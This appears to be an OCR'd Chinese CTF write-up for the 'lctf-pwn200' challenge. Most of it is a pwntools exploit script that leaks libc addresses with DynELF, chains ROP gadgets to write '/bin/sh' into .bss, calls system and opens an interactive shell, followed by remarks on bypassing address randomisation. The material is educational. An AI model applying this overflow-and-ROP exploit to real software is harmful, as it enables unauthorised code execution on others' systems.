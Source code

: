     def leak(address):
      payload = "A" * 112
      payload += p32(writeplt)
      payload += p32(vulnaddress) #反复利用溢出漏洞
      payload += p32(1)
      payload += p32(address)
      payload += p32(4)
      p.send(payload)
      data = p.recv(4)
      print "%#x => %s" % (address, (data or '').encode('hex')) 
	  #当读入地址为空的时候再转hex会出错,所以加一个''来避免NULL转hex吧。py读文件没读到跟''是两个类型。
      return data

    print p.recvline()
    dynelf = DynELF(leak, elf=ELF("./lctf-pwn200"))
    systemAddress = dynelf.lookup("__libc_system", "libc") 
    print "systemAddress:", hex(systemAddress)
  	 
	#调用_start函数，恢复栈
    payload1 = "A" * 112
    payload1 += p32(startaddress) 
    p.send(payload1)
    print p.recv()

    ppprAddress = 0x0804856c#获取连续3次pop操作[+ret]的gadget的地址,消除read参数,便于gadget中ret到system
    payload1 = "A" * 112
    payload1 += p32(readplt)
    payload1 += p32(ppprAddress)
    payload1 += p32(0)
    payload1 += p32(bssaddress)
    payload1 += p32(8) #在终端输入“/bin/sh”，由read读取写入bss段
    payload1 += p32(systemAddress) + p32(vulnaddress) + p32(bssaddress)
    p.send(payload1) #read等待有输入
    p.send('/bin/sh\0') #发送'/bin/sh\0'到终端
    p.interactive()
    

参考链接：

- https://blog.csdn.net/u011987514/article/details/68490157

- https://blog.csdn.net/guiguzi5512407/article/details/52752909


## ROP攻击 ##
通过**泄露内存的方式[DynELF模块]**可以获取目标程序libc中各函数的地址，这种攻击方式可以**绕过地址随机化保护**。

![PIE开启](/assets/img/PIE.jpg)
